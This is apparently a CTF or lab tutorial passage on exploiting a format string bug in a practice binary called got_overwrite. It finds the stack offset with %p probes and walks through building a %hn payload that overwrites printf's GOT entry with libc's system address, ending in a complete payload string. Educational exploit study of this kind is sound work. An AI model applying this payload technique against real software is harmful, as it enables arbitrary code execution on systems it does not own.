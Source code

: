 This script will iterate 100 times and fuzz `$x`, so printing out values on the stack in <mark style="color:yellow;">hex format</mark>.

We want to focus on the `%n` format specifier.

<mark style="color:yellow;">When performing this kind of technique, we want to fuzz and print out values on the stack when injecting arbitrary data to see where our data/input ends up</mark>.

#### Manual Approach (just messing with the program)

We can <mark style="color:yellow;">incrementally utilize position-based parameters with our input and print out</mark> <mark style="color:yellow;">or inject</mark> in a specific part of the stack.

**See an example below**:

<mark style="color:yellow;">Pay attention to the decrementing value immediately after the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`%`</mark>. We start with `%6` and go to `%4` <mark style="color:yellow;">in order to identify where our input ends up on the stack</mark>.

```
./got_overwrite

AAAA%6$p
AAAA0xf7fb000a
AAAA%5$p
AAAA0x70243525
AAAA%4$p
AAAA0x41414141
```

Okay cool, what is 41414141 converted to ASCII?

We can use the **pwntools** tool, `unhex 41414141` to figure this out.

`AAAA`!

Great, <mark style="color:yellow;">we have identified where our data is being injected onto the stack</mark>.

So we need to answer what place the input gets placed into so we can identify the address that can then be used for the `%n` write operation.

### Manual Exploitation Methodology -- `printf()` write exploit w/ `%n`

We can use the following methodology to help us craft an exploit manually:

{% code overflow="wrap" %}
```
# Need to overwrite 0x0804c00c (GOT.printf) with 0xf7dff040 (LIBC.system)

# It means writing 0xf7df (63455) @ 0x0804c00c + 2 = 0x0804c00e (high order)
# and 0xf040 (61504) @ 0x0804c00c (low order)

# Now, we have to figure out the value to set for the padding. Here is the formula :
[The value we want] - [The bytes alredy wrote] = [The value to set].

# Let’s start with the low order bytes :
It’ll will be 61504 - 8 = 61496, because we already wrote 8 bytes (the two 4 bytes addresses).

# Then, the high order bytes :
It’ll will be 63455 - 61504 = 1951, because we already wrote 61504 bytes (the two 4 bytes addresses and 61496 bytes from the previous writing).

# Now we can construct the exploit (note our write offset is %4 so we want [%4,%5] as offsets instead of [%7,%8]) :

It’ll be : \x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn. Let me explain :
    \x0c\xc0\x04\x08 or 0x0804c00c (in reverse order) points to the low order bytes.
    \x0e\xc0\x04\x08 or 0x0804c00e (in reverse order) points to the high order bytes.
```